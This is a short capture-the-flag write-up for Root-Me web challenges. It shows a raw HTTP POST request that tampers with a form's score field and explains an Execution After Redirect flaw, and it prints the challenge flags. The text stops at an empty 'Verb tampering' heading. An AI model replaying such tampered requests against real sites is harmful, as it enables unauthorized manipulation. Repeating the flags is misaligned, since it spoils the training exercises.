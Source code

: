 # HTTP - POST

in response to default request we can see next html
```html
<li>Score to beat: <strong>999999</strong></li>
```

challenge is solved by sending score that will be more than 999999
```http
POST /web-serveur/ch56/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://challenge01.root-me.org
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch56/
Upgrade-Insecure-Requests: 1

score=1000000&generate=Give+a+try%21
```

out flag is in response 
```html
<p>Flag to validate the challenge: <strong>H7tp_h4s_N0_s3Cr37S_F0r_y0U
</strong></p>
```

# HTTP - Improper redirect

after default request we still get flag in response before redirected to login page
```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<h1>Welcome !</h1>

<p>Yeah ! The redirection is OK, but without exit() after the header('Location: ...'), PHP just continue the execution and send the page content !...</p>
<p><a href="http://cwe.mitre.org/data/definitions/698.html">CWE-698: Execution After Redirect (EAR)</a></p>
<p>The flag is : ExecutionAfterRedirectIsBad
</p>
</body>
</html>
```

# HTTP - Verb tampering
